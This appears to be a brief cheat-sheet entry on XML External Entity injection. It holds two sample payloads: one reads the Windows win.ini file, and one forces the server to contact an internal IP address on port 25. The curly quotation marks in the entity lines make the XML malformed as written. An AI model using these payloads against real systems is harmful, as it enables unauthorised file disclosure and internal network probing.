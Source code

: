 # XXE
If xmp is used in the request,you can get xxe using the following
This will cause the app to fetch the file win.ini: 
```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM “file:///windows/win.ini” > ]> 
<Search><SearchTerm>&xxe;</SearchTerm></Search> 
``` 

This will cause the app to fetch a resource form another site: 
```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM “http://192.168.1.1:25” > ]> 
<Search><SearchTerm>&xxe;</SearchTerm></Search>
```
